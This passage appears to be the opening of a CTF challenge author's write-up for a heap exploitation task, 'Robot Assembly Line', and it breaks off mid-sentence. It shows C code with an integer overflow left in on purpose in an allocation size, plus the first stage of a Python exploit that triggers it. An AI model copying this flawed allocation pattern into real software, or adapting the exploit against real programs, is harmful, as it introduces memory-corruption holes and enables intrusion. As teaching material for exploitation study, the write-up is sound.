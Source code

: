 # [PWN Medium-Hard] Robot Assembly Line: 7 solves

## Overview

The goal when designing this challenge was to try to create a somewhat realistic
exploitation challenge, requiring the chaining of a few different vulnerabilities
and tricks. There are only two actual vulnerabilities:

1. Integer overflow when calculating allocation size for robots array
2. Failure to ensure NUL-terminated string when reading robot name


## Stage 1: Using the integer overflow to cause a too-small allocation

The first vulnerability allows allocating a too-small buffer for the array of robots:

```c
locked_printf("Enter number of robot turrets to manufacture:\n");
if (!read_line(g_line, sizeof(g_line), STDIN_FILENO)) {
    return -1;
}

size_t count;
if (sscanf(g_line, "%zu", &count) != 1) {
    return -1;
}

// Intentional 64-bit integer overflow resulting in too-small allocation
size_t size = round_up(count * sizeof(Robot), sizeof(Robot));
// locked_printf("DEBUG: Requested allocation size: %zu\n", size);
Robot* robots = malloc(size);
memset(robots, 0, size);
```

My exploit calculates a value that will integer overflow back to 1, thus only allocating
space for a single `Robot`. This will become critically important later.

```python
# Calculate number of robots to correctly overflow
ovf_size = (1 << 64) // SIZEOF_ROBOT + 1
product_size = ovf_size * SIZEOF_ROBOT

# Sanity checking
assert product_size >= (1 << 64)
assert wrap64(product_size) <= SIZEOF_ROBOT

r.recvuntil(b"Enter number of robot turrets to manufacture:\n")
r.sendline(str(ovf_size).encode())
```

_Side note: directly after allocating the robots array, there is a dummy allocation of a_
_carefully selected size to ensure overlapping objects will align in a particular way:_
